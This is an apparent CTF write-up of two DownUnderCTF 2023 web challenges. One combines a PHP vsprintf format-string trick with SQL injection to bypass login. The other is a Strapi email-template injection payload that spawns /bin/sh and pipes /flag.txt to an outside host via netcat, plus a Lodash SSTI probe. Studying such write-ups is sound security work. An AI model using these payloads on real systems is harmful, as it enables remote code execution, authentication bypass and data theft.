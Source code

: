 # downunderctf 2023

# **Smooth Jazz**

## **Source Code**

```php
<?php
function mysql_fquery($mysqli, $query, $params) {
  return mysqli_query($mysqli, vsprintf($query, $params));
}

if (isset($_POST['username']) && isset($_POST['password'])) {
  $mysqli = mysqli_connect('db', 'challuser', 'challpass', 'challenge');
  $username = strtr($_POST['username'], ['"' => '\\"', '\\' => '\\\\']);
  $password = sha1($_POST['password']);

  $res = mysql_fquery($mysqli, 'SELECT * FROM users WHERE username = "%s"', [$username]);
  if (!mysqli_fetch_assoc($res)) {
     $message = "Username not found.";
     goto fail;
  }
  $res = mysql_fquery($mysqli, 'SELECT * FROM users WHERE username = "'.$username.'" AND password = "%s"', [$password]);
  if (!mysqli_fetch_assoc($res)) {
     $message = "Invalid password.";
     goto fail;
  }
  $htmlsafe_username = htmlspecialchars($username, ENT_COMPAT | ENT_SUBSTITUTE);
  $greeting = $username === "admin" 
      ? "Hello $htmlsafe_username, the server time is %s and the flag is %s"
      : "Hello $htmlsafe_username, the server time is %s";

  $message = vsprintf($greeting, [date('Y-m-d H:i:s'), getenv('FLAG')]);
  
  fail:
}
?>
```

## **Prerequisite knowledge**

- Mysql engine **truncates** string from the beginning of an invalid UTF8-encoding character.
- Familiarity with the **format** parameter and the behavior of the **vsprintf** function in PHP.
    - `vsprintf(string $format, mixed ...$values): string`
        - **Format parameter**:
            - `%[argnum$][flags][width][.precision][specifier]`
                - Example: `%1$'as`
                  
                    > %: starting symbol
                    > 
                    > 
                    > **1$**: [argnums$] :match the first value from values that are passed in.
                    > 
                    > **'a**: one option of the [flags] -> '(char): Replace blank with 'a' to pad the result string. For example, when [width] is set to 100 and the real length of the formatting string is only 5, the rest of the 95 characters would be padded with the letter 'a'.
                    > 
                    > **s**: [specifier]: specify the data type for each data from inputted values. `%` is also a specifier, used for output real `%`, which is a tricky one for smuggling a new token by combining it with the **htmlspecialchars** function.
                    > 

## **Payload**

```
POST /username=admin%ff%251$c%23+%251$'>%25s&password=668
```

- **%ff**: truncates string after "admin". From the Mysql engine's perspective, all the input characters are already determined as "admin".
- **%251$c** (URL DECODING)-> **%1$c**: a positional specifier tricks the sprints function to format string as we want. In other words, it controls the real transfer stream and achieves our expectations by combining with the password value.
  
    why we can't directly use %c to format the password field is that formatting a string usually works in order, rendering each item of an input array perspectively to each place of specifier. So we need to specify which data to render, avoiding the error.
    
    > PHP Fatal error:  Uncaught ValueError: The arguments array must contain 2 items, 1 given in /var/www/html/index.php:3\nStack trace:\n#0 /var/www/html/index.php(3): vsprintf()
    > 
- **password=668**: cha1(668) = 34cXXXXX. %34 represents a url-encoded **double-quote**. vsprintf("%1$c", 34) will generate a double-quote to exploit SQL Injection, bypassing the password authentication.
- **%251$'>%25s** (URL DECODING)-> **%1$'>%s**: the last step to do is get flag. Although we can not make the username totally match "admin", we can inject a specifier as above to exfiltrate the second 'FLAG' formatting input.
- To that end, there is a problem emerging. We can not pass two specifiers into the username field, since the previous vsprintf functions all only accept one input value. That means if we directly pass two specifiers in, it will cause a error from php interpreters as we discussed above. So the key point is to leverage `htmlspecialchars` function to "create a specifier" for us. That is what this payload did.
- %1$'>%s --htmlspecialchars--> %1$'&gt;%s
    - The first specifier: **%1$'&g**: a floating point number, taking from position 1, using & as padding char
    - followed by the string "t;"
    - The second specifier: **%s**: string taken from the 2nd position, that is where the FLAG is.
- That is how we arrived there.

# **Strapi In**

> Strapi In is a really fun one! Since the challenge is derived from a **0-day vulnerability**, I finished it myself 🤩 and successfully made a contribution to https://github.com/swisskyrepo/PayloadsAllTheThings, a well-known payloads project! 🥳
> 

STRAPI IN quick writeup :

step 1: create a  custom template with a reference id 1

```
{{x=Object}}{{w=a=new x}}{{w.type="pipe"}}{{w.readable=1}}{{w.writable=1}}{{a.file="/bin/sh"}}{{a.args=["/bin/sh","-c","nc **YOUR_IP YOUR_PORT** < /flag.txt"]}}{{a.stdio=[w,w]}}{{process.binding("spawn_sync").spawn(a).output}}
```

step 2: visit the url: [https://web-strapi-in-6a0f1abf2bf0cbc0.2023.ductf.dev/api/sendtestemail/1](https://web-strapi-in-6a0f1abf2bf0cbc0.2023.ductf.dev/api/sendtestemail/1)

**for debug tips**

`/opt/strapi-in/node_modules/strapi-plugin-email-designer/server/services/email.js:91:87`

![https://api.2h0ng.wiki:443/noteimages/2023/09/02/image-20230902190236092.png](https://api.2h0ng.wiki:443/noteimages/2023/09/02/image-20230902190236092.png)

![https://api.2h0ng.wiki:443/noteimages/2023/09/02/image-20230902190324305.png](https://api.2h0ng.wiki:443/noteimages/2023/09/02/image-20230902190324305.png)

## **mustache template with Lodash SSTI payloads**

```
{{= _.VERSION }}{{= _.templateSettings.evaluate }}
```

[https://github.com/janl/mustache.js](https://github.com/janl/mustache.js)

## **Reference**

[https://www.php.net/manual/en/function.sprintf.php#Specifiers](https://www.php.net/manual/en/function.sprintf.php#Specifiers)

[https://www.php.net/manual/en/function.htmlspecialchars.php](https://www.php.net/manual/en/function.htmlspecialchars.php)

[https://github.com/DownUnderCTF/Challenges_2023_Public/blob/main/web/smooth-jazz/solve/solution.py](https://github.com/DownUnderCTF/Challenges_2023_Public/blob/main/web/smooth-jazz/solve/solution.py)

[https://www.geeksforgeeks.org/lodash-_-template-method/](https://www.geeksforgeeks.org/lodash-_-template-method/)

[https://twitter.com/rootxharsh/status/1268181937127997446?lang=en](https://twitter.com/rootxharsh/status/1268181937127997446?lang=en)

[https://www.ghostccamm.com/blog/multi_strapi_vulns/](https://www.ghostccamm.com/blog/multi_strapi_vulns/)

[https://lodash.com/docs/4.17.15#templateSettings](https://lodash.com/docs/4.17.15#templateSettings)